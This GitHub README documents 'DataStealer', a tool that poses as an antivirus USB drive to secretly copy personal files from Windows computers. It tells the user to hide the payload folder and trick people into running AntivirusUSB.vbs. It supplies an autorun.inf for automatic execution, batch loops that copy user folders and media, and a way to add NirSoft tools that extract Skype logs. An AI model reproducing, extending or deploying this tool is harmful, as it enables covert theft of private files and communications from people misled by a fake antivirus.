 # DataStealer

## Information
DataStealer pretends be a Antivirus USB to gather personal information in Windows systems.

## Intructions
Just copy all files/folders and paste in USB device. Hide **"data"** folder and **"run.bat"**. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration

### Folders
If you want you can add more lines with folders in **"run.bat"** for gather information

Like this:
>REM ############ Formats ############
>
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%rest%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")
>
>REM #################################

Replace **"%userprofile%\Pictures\"** for any folder.

### Formats
If you want you can add more formats in **"run.bat"** of files to gather

Like this:
>REM ############ Formats ############
>
>set rest= \*.jpg,\*.png,\*.mp4,\*.3gp,\*.wav,**\*.avi**
>
>REM #################################

### More funcionalities (Nirsoft)
NirSoft web site provides a unique collection of small and useful freeware utilities, all of them developed by Nir Sofer. 

For more funcionalities, go to [nirsoft.net](www.nirsoft.net "Nirsoft"), download software and put in "data/soft/" folder

Later add a line for each software in **"run.bat"**

Like this:
>REM ############ Nirsoft ############
>
>start data/soft/**SkypeLogView**.exe /shtml "data\pss\%USERNAME%\\**SkypeLogView**.html"
>
>REM #################################

Replace **SkypeLogView** in both places with the software name

# Download
[Releases](https://github.com/Kevinsillo/datastealer/releases)
